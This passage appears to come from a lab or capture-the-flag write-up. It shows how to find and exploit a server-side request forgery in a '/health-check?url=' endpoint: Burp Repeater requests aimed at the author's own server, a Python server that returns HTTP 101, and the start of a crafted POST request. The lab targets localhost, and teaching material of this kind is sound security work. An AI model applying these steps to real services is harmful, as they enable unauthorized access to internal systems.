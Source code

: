     var urls=["http://store.initech.com","http://tickets.initech.com","http://blog.initech.com"];
    $( document ).ready(function() {
    
    $.each(urls, function( index, url ) {
        $.ajax("/health-check?url="+encodeURIComponent(url))
            .success(function (jqXHR) {
                console.log("success");
                console.log(jqXHR.status);

Coming back to Burp we can send on the intercepted request to Repeater:

    GET /health-check?url=http%3A%2F%2Ftickets.initech.com HTTP/1.1
    Host: localhost:8002
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

We get the response:

    HTTP/1.1 200

So a SSRF vulnerability is present, let's verify it. First start a Python server, then using Repeater try to change the url parameter to point to our Python server (set the IP according to your docker container interfaces):

    GET /health-check?url=http%3A%2F%2F172.21.0.1:8000 HTTP/1.1
    Host: localhost:8002
    ....

We got a 200 response

    HTTP/1.1 200 

On the Python server console:

    172.21.0.2 - - [06/Jun/2024 12:54:51] "GET / HTTP/1.1" 200 

Since we need to get a 101 response I created the follows simple script to return it:

    import sys
    from http.server import HTTPServer, BaseHTTPRequestHandler

    class MyServer(BaseHTTPRequestHandler):
       def do_GET(self):
           self.protocol_version = "HTTP/1.1"
           self.send_response(101)
           self.end_headers()

    print("Server listen o port 80...");
    HTTPServer(("", 80), MyServer).serve_forever()

Run the server:

    sudo python resp101.py 
    ...
    Server listen o port 80...

Now we can perform another test, in Repeater change the request method to POST, then set the url parameter in query string and pass a dummy value in the body, as follows:

    POST /health-check?url=http%3A%2F%2F172.21.0.1 HTTP/1.1
    Host: localhost:8002
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    X-Requested-With: XMLHttpRequest
    Connection: close
    Referer: http://localhost:8002/status.html
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 3
    